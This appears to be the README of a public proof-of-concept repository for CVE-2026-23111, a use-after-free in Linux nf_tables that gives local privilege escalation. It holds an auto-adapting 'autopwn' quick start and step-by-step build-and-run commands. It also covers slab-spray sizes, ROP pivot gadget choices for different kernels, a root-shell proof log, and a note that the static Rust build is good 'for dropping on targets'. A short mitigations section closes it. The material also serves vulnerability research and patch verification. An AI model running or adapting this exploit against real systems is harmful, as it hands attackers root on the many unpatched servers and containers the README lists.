


# CVE-2026-23111 — noddlenpottato

nf_tables catchall UAF → unprivileged LPE. user to root on most 5.10—6.18 linux kernels.

auto-adapts to the target kernel — detects struct offsets, resolves symbols, finds ROP gadgets, determines slab cache, generates tailored exploit, compiles and runs.

nf_tables catchall UAF → LPE sem privilegios. usuario comum vira root na maioria dos kernels linux 5.10—6.18.

auto-adapta pro kernel alvo — detecta offsets de structs, resolve simbolos, encontra gadgets ROP, determina slab cache, gera exploit sob medida, compila e roda.

## exploit chain overview



## slab reclaim strategy



## the vulnerability / a vulnerabilidade

EN: inverted genmask check in `nft_map_catchall_activate()` (`net/netfilter/nf_tables_api.c`). during transaction abort, the handler skips inactive catchall elements that need reactivation and processes active ones that dont. this causes `chain->use` to decrement without proper restoration, allowing DELCHAIN on a still-referenced chain — creating a UAF.

PT: check invertido de genmask em `nft_map_catchall_activate()` (`net/netfilter/nf_tables_api.c`). durante o abort de transacao, o handler pula catchall elements inativos que precisam de reativacao e processa os ativos que nao precisam. isso causa o decremento de `chain->use` sem restauracao adequada, permitindo DELCHAIN numa chain ainda referenciada — criando um UAF.

the bugged condition:
```c
// WRONG (actual code) — skips the elements that need reactivation
if (!nft_set_elem_active(ext, genmask))
    continue;

// CORRECT (what it should be) — skips elements already active
if (nft_set_elem_active(ext, iter->genmask))
    return 0;
```

## what you get / o que voce consegue

- **arbitrary kernel read** — read 8 bytes from any kernel virtual address, unlimited times
- **KASLR bypass** — leak kernel base from `seq_operations` reclaim of freed chain name
- **full LPE** — `commit_creds(init_cred)` via ROP chain with KPTI-safe return to userspace
- **works from unprivileged user** — only needs `unshare -rUn` (user + network namespace)
- **works inside containers** — kubernetes pods, docker containers (gets root in container namespace)

## affected versions / versoes afetadas

the bug was introduced in 6.1.36 (backport) and exists in multiple LTS branches:

| kernel range | fixed in | distros affected |
|---|---|---|
| 6.13 — 6.18.9 | 6.18.10 | fedora 41+, arch (rolling) |
| 6.7 — 6.12.69 | 6.12.70 | ubuntu 24.04/24.10, fedora 39/40 |
| 6.1.36 — 6.1.162 | 6.1.163 | **debian 12 (bookworm)**, RHEL 9 derivatives |
| 5.15.121 — 5.15.199 | 5.15.200 | **ubuntu 22.04 LTS**, debian 11 backports |
| 5.10.188+ | various | debian 11 (bullseye), RHEL 8 derivatives |

this covers basically every major enterprise linux distro shipped between 2023-2026.

## quick start

```bash
git clone https://github.com/Knz-source/CVE-2026-23111-POC-noddlenpottato
cd CVE-2026-23111-POC-noddlenpottato
python3 autopwn.py
```

or step by step / ou passo a passo:

```bash
python3 checker.py --detailed          # check if vulnerable / verifica se é vulneravel
python3 scripts/extract_offsets.py     # grab kernel offsets / pega offsets do kernel
python3 scripts/find_gadgets.py        # find ROP gadgets / encontra gadgets ROP
make                                   # build the exploit / compila o exploit
./exploit                              # pop root
```

## repo structure / estrutura do repo

```
.
├── autopwn.py                  full auto — detect, extract, compile, exploit
├── checker.py                  vulnerability checker (version, modules, userns, BTF)
├── exploit_61.c                base exploit (Debian 6.1.172 offsets, template for autopwn)
├── exploit/
│   ├── exploit.c               C exploit
│   ├── exploit.py              python wrapper with retry logic
│   └── exploit.rs              rust port (compiles static with musl)
├── scripts/
│   ├── extract_offsets.py      BTF/pahole offset extractor
│   ├── find_gadgets.py         ROP gadget finder (objdump/nm)
│   ├── slab_check.sh           slab cache analyzer
│   └── install_deps.sh         dependency installer
├── img/                        diagrams
├── Makefile                    build targets (C, Rust, deps)
├── EXPLOITATION.md             deep dive into the 5-phase exploit chain
├── DEBUGGING.md                step by step offset extraction and gadget hunting
└── CONSIDERATIONS.md           edge cases, bypasses, pitfalls
```

## key technical adaptations / adaptacoes tecnicas chave

### slab size matters

`sizeof(nft_chain)` varies across kernel builds. wrong spray size = silent failure:

```
debian 6.1.172:   120 bytes → kmalloc-128
ubuntu 6.5.x:     136 bytes → kmalloc-192
ubuntu 6.8.x:     152 bytes → kmalloc-192
debian 5.15.x:    112 bytes → kmalloc-128
```

the userdata spray MUST use the exact struct size (not the slab size). `autopwn.py` handles this automatically via `pahole`.

### pivot gadget varies

the register holding the expr pointer at the `eval()` call site changes between kernel versions:

| kernel | register | required gadget |
|---|---|---|
| 6.1.x (debian) | rbp | `leave; jmp __x86_return_thunk` |
| 6.5+ (ubuntu) | rbx | `mov rsp, rbx; ret` or `push rbx; pop rsp; ret` |

wrong gadget = instant kernel panic. always verify by disassembling `nft_do_chain`.

### retpoline

modern kernels replace all `ret` with `jmp __x86_return_thunk`. gadget search must account for this — you wont find `pop rdi; ret`, youll find `pop rdi; jmp __x86_return_thunk`.

## build

```bash
# C (recommended — fastest, proven)
make

# Rust (static binary with musl — good for dropping on targets)
make rust

# install build deps
make deps
```

## proof

```
$ id
uid=1000(user) gid=1000(user)

$ ./exploit
[*] CVE-2026-23111 nftables UAF -> LPE
[+] chain freed (kmalloc-128) + name freed (kmalloc-32)
[pwn] kbase = 0xffffffff9a400000
[pwn] my_task found at 0xffff8e4a1c084190
[pwn] canary = 0x5c6fa95dca98e100
[pwn] commit_creds(init_cred) -> ROP triggered
[+] root

# id
uid=0(root) gid=0(root) groups=0(root)
```

## documentation / documentacao

| doc | what / o que |
|---|---|
| [EXPLOITATION.md](EXPLOITATION.md) | full exploit chain walkthrough with code, EN/PT |
| [DEBUGGING.md](DEBUGGING.md) | how to extract every offset and gadget for your kernel, EN/PT |
| [CONSIDERATIONS.md](CONSIDERATIONS.md) | edge cases, bypasses, containers, SMEP/SMAP, detection, EN/PT |

## mitigations / mitigacoes

```bash
# update kernel to fixed version
apt upgrade linux-image-$(uname -r)

# or disable unprivileged user namespaces
sysctl -w kernel.unprivileged_userns_clone=0

# or blacklist nf_tables
echo 'install nf_tables /bin/true' >> /etc/modprobe.d/blacklist.conf
```

## credits

original vulnerability analysis from the nf_tables advisory. full LPE chain development, slab analysis, multi-kernel adaptation, pivot gadget research, and autopwn tooling developed independently.
